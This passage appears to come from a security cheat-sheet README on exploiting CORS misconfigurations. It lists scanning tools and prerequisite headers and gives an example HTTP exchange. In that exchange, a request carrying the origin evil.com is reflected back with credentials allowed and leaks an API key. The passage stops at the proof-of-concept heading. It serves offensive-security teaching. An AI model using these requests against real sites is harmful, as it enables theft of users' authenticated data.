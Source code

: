 # Cross-Origin-Resource-Sharing_Misconfiguration

> A site-wide CORS.config was in place for an API domain. This allowed an attacker to make cross origin requests on behalf of the user as the application did not whitelist the Origin header and had Access-Control-Allow-Credentials. 
>True. Meaning we could make requests from our attacker’s site using the victim’s credentials. 

## Summary

* [Tools](#tools)
* [Prerequisites](#prerequisites)
* [Exploitation](#exploitation)
* [References](#references)

## Tools

* [Corsy - CORS Misconfiguration Scanner](https://github.com/s0md3v/Corsy/)
* [PostMessage POC Builder - @honoki](https://tools.honoki.net/postmessage.html)

## Prerequisites

* BURP HEADER> `Origin: https://evil.com`
* VICTIM HEADER> `Access-Control-Allow-Credential: true`
* VICTIM HEADER> `Access-Control-Allow-Origin: https://evil.com` OR `Access-Control-Allow-Origin: null`

## Exploitation

Usually you want to target an API endpoint. Use the following payload to exploit a CORS misconfiguration on target `https://victim.example.com/endpoint`.

### Vulnerable Example: Origin Reflection

#### Vulnerable Implementation

```powershell
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### Proof of Concept
